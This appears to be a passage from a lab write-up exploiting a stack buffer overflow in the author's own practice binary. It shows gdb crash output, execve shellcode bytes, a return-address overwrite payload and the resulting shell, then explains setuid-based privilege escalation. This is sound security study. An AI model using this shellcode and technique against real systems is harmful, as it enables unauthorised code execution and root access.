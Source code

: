 ```python
   0x555555555371 <main(int, char**)>:	endbr64 
   0x555555555375 <main(int, char**)+4>:	push   rbp
   0x555555555376 <main(int, char**)+5>:	mov    rbp,rsp
   0x555555555379 <main(int, char**)+8>:	sub    rsp,0x20
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde48 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0008| 0x7fffffffde50 ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0016| 0x7fffffffde58 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0024| 0x7fffffffde60 ("AA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0032| 0x7fffffffde68 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0040| 0x7fffffffde70 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0048| 0x7fffffffde78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0056| 0x7fffffffde80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000555555555370 in auth () at /home/talantov/projects/appsec/exploit/stack_overflow.cpp:23
23	}
gdb-peda$ pattern_offset AAKAAgAA6AALA
AAKAAgAA6AALA found at offset: 88
```

```bash
$ export PWN=`python3 -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")'`

$ ./getenvvar PWN ./stack_overflow
PWN will be at 0x7fffffffe523
```

Offset 88 points to return address position. Address **0x7fffffffe53d** points to shellcode position.
```bash
$ (python3 -c "import sys; sys.stdout.buffer.write(b'A'*88 + b'\x23\xe5\xff\xff\xff\x7f\x00\x00' + b'\n')"; cat) | ./stack_overflow
Enter a password: 
id
uid=1000(talantov) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
whoami
talantov
uname -a
Linux talantov-virtual-machine 6.2.0-33-generic #33~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Sep  7 10:33:52 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege escalation
When bash executes it uses RUID as EUID (see diferences between EUID, RUID https://book.hacktricks.xyz/linux-hardening/privilege-escalation/euid-ruid-suid). If process is owned by root and has setuid flag, EUID will be set to root, but RUID will be corresponded to the user that executes the process. There is setuid syscall which sets both EUID and RUID to specified value (0 - means root). It could be used to change effective user to root before bash executing.
